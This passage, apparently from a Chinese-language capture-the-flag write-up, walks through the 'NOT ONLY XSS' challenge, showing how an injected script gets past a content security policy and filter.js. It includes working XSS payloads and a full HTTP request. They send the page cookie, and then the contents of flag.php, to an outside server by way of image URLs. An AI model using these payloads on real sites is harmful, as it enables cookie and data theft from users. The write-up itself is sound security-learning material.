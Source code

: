 在VPS上可以收到这样的数据

![XSS1](http://momomoxiaoxi.com/img/post/whctf/NOT_ONLY_XSS1.jpeg)

然后，访问一下页面

`http://118.31.15.206:20006/upload/26a155556d805e00c4c5a845e9418515.html`

可以看到这个页面不仅有CSP的限制，还有一个filter.js代码。这个代码会限制很多JS的操作。

通过本地测试，以下代码可以绕过限制

```
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' 'unsafe-inline';style-src 'self' 'unsafe-inline';img-src *;">
<script src='../js/filter.js'></script>
<h2>Phone</h2> 15084760817<br>
<h2>secret</h2><br>
<img src="http://45.62.96.72:5678/11">
<script>
    var ss = "http://45.62.96.72:5679/2/?p="+document.cookie;
    var elem = document.createElement("img");
    elem.setAttribute("src", ss);
    document.body.appendChild(elem);
</script>
<h2>Email</h2>momomomoxiaoxi@gmail.com
```

![XSS2](http://momomoxiaoxi.com/img/post/whctf/NOT_ONLY_XSS2.png)

可以弹到数据！（这里说明一下，为什么要弹两次。主要是为了通过第一个img获取生成的网页的具体网址。好当发现后面的js代码没有执行时，获取原始页面内容，查看是否是语法错误或者其它，方便调试）

接下里就掉入一个大坑中了。在测试中，发现这个payload在远程永远无法执行。很迷。。

后来，才发现提交的代码中js字符串拼接的+号，直接提交时会被解码成空格生成页面。那么后面的js代码就有语法错误，所以无法执行。

![XSS3](http://momomoxiaoxi.com/img/post/whctf/NOT_ONLY_XSS3.png)

所以，在提交的时候需要对+编码。

此时，JS能够成功执行，但是document.cookie是空，说明不是打cookie的值。后来，发现存在一个flag.php文件。这里很神奇，本来感觉基本没办法读取。因为是flag.php，感觉admin访问和用户访问应该显示的是一样的（这里无cookie机制，即没权限区分。当然可能是httponly的Cookie，打不出来）。但是，后来抱着试一试的心态，突然把flag打到了。这里的问题在于XSS bot是以PhantomJS/2.1.1开发的，而它可以直接读取到源码。

payload：

```html
POST / HTTP/1.1
Host: 118.31.15.206:20006
Content-Length: 303
Cache-Control: max-age=0
Origin: http://118.31.15.206:20006
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://118.31.15.206:20006/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: PHPSESSID=1cmok66ci2idscuhaq8b5649s6
Connection: close

name=mo+xiaoxi&email=momomomoxiaoxi%40gmail.com&phone=15084760817&verify=541274&secret=<img src="http://45.62.96.72:5678/11"><script>var xhr = new XMLHttpRequest();var url = "../flag.php";xhr.open("GET", url, true);xhr.send(null);setTimeout(function(){console.log(xhr);var ss = "http://45.62.96.72:5679/?p="%2bescape(xhr.responseText);var elem = document.createElement("img");elem.setAttribute("src", ss);document.body.appendChild(elem);}, 3000);</script>
```
